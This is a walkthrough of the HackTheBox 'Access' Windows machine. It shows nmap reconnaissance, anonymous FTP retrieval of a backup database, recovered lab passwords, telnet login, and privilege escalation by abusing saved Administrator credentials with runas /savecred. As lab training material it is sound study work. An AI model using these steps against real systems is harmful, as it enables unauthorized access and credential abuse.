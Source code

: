 ```yaml
---
title: "Access - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
toc: true
hide_title: true
excerpt: ""
---
```


## Access
![[adef7ad3d015a1fbc5235d5a201ca7d1.webp]]
Tags: #Easy #Windows 
## Reconnaissance

IP: 10.10.10.98
### NMAP

```
nmap -T4 -p- -A 10.10.10.98
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 07:45 EST
Nmap scan report for 10.10.10.98
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)                                                                                            
No exact OS matches for host (test conditions non-ideal).                                                               
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: 27s

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.10.14.1
2   31.65 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.46 seconds
```

Nmap shows 3 open ports 21 - FTP, 23 - telnet, and 80 - http.
Site is simple Windows ISS, so enumerate ftp.

## FTP

```
ftp 10.10.10.98
	anonymous
	anonymous
```

Anonymous login works great, and we have 2 files here, let's download it and check

```
binary 
cd backup
get backup.mdb
cd ..
cd engineer
get "access control.zip"
```

After long exploring backup db, I found credentials 

![[Pasted image 20250308134508.png]]

No one works with telnet but one is password for:

```
access control.zip  -- access4u@security
```

let's load output into outlook and explore. I found that password for security account has been changed

![[Pasted image 20250308135350.png]]

## Gaining Access
### Telnet

```
telnet 10.10.10.98
	security
	4Cc3ssC0ntr0ller
```

I manage to log in via telnet what gives low-level access as security user

![[Pasted image 20250308135559.png]]

![[Pasted image 20250308140051.png]]

We can grab first flag

```
type C:\Users\security\Desktop\user.txt
```

## Privilege Escalation

After gaining access to the machine, I looked for potential ways to escalate privileges. I discovered that I could use runas to run commands as the Administrator user by utilizing the /savecred option.

I used the following runas command to execute a command as Administrator and save the credentials:

```
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

```
c:\windows\system32\runas.exe /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c TYPE c:\users\administrator\desktop\root.txt > c:\users\security\root.txt"
```

This command runs as the Administrator user and saves the output of root.txt to a location where the security user can access it.

After that we can type root.txt

```
C:\Users\security>type root.txt
```